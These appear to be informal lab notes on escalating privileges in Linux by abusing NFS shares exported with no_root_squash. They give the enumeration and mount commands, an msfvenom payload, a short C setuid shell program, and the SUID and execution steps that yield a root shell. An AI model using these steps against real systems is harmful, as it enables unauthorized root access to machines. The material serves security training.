



Exploit of NFS root squashing
Privilege Escalation
0. Use Linux Smart Enumeration Tool
target@debian:~$ ./lse.sh -l 2 -i | more
To search in the result you can type "/NFS"
1. Manually: Check the contents of /etc/exports for shares with the
no_root_squash option:
target@debian:~$ cat /etc/exports
→ option means that we can write file to it as the root user over NFS (from another machine). We can mount this folder!
4. From the Attacker machine confirm that the NFS share is available for remote mounting:
attacker@kali:/# showmount -e <targetIp>
yes! confirmed
5. Create a mount point on your local machine and mount the /tmp NFS share:
attacker@kali:/# mkdir /tmp/nfs
attacker@kali:/# mount -t nfs -o rw,vers=2,nolock 192.168.1.25:[remoteDirectory] [localDirectory] #now attacker and target are sharing the folder
mount options:
◇ -o, --options <list> → comma-separated list of mount options
▪ -w, --rw, --read-write → mount the filesystem read-write (default)
▪ vers=<number> → select the nfs version, we should specify to use version 2 because if it doesn't have any authentication or authorization.
▪ nolock → disables file locking. This setting is occasionally required when connecting to older NFS servers.
◇ -t, --types <list> → limit the set of filesystem types
6. check if the mount command is been successfull
7. Using your local Attacker machine, generate a payload and save it to the mounted share:
attacker@kali:/# msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
attacker@kali:/# ls
8. Alternatively to poit 7, we can create a payload like this
create a payload, compile it, and save it to the mounted share:
cd /tmp/nfs
nano shell.c
gcc shell.c -o shell
shell.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
10. Make sure the file has the SUID bit set, and is executable by everyone:
from the attacker machine (since from the target we do nt have the privileges to do it)
attacker@kali:/# cd /tmp/nfs
attacker@kali:/# chmod +xs /tmp/nfs/shell.elf
As we can see the file shell.elf is:
◇ owned by root
◇ it is executable by all users
◇ has the SUID bit set
11. On the target machine, execute the file to get a root shell:
target@debian:~$ /tmp/shell.elf